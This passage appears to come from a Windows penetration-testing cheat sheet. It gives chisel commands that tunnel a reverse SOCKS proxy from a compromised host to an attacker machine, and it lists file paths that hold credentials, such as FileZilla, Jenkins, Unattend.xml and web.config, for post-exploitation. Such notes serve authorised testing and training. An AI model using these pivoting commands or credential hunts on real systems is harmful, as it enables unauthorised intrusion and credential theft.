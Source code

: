 Chisel proxying
Just an example on how to set up a Socks proxy to chisel over a
compromised host There are many more things you can do with
Chisel!
On attacker machine Linux or Windows

28/31

./chisel server -p 8888 --reverse
On target
.\chisel_windows_386.exe client 10.10.16.7:8888 R:8001:1

Now we are listening on localhost:8001 on our attacking
machine to forward that traffic to target:9001
Then open the Socks server On target
.\chisel_windows_386.exe server -p 9001 --socks5
On attacking machine
./chisel client localhost:8001 socks
A proxy is now open on port

of our attacking machine

Juicy files
There are lots of files that may contain interesting information
Tools like WinPEAS or collections like PowerSploit may help in
identifying juicy files for privesc or post exploitation
Below is a list of some files I have encountered to be of
relevance Check files based on the programs and/or services
that are installed on the machine
In addition don’t forget to enumerate any local databases
with sqlcmd or Invoke-SqlCmd !

# All user folders
## Limit this command if there are too many files ;)
tree /f /a C:\Users
# Web.config
C:\inetpub\www\*\web.config
29/31

# Unattend files
C:\Windows\Panther\Unattend.xml
# RDP config files
C:\ProgramData\Configs\
# Powershell scripts/config files
C:\Program Files\Windows PowerShell\
# PuTTy config
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty
# FileZilla creds
C:\Users\
[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml
# Jenkins creds (also check out the Windows vault, see
above)
C:\Program Files\Jenkins\credentials.xml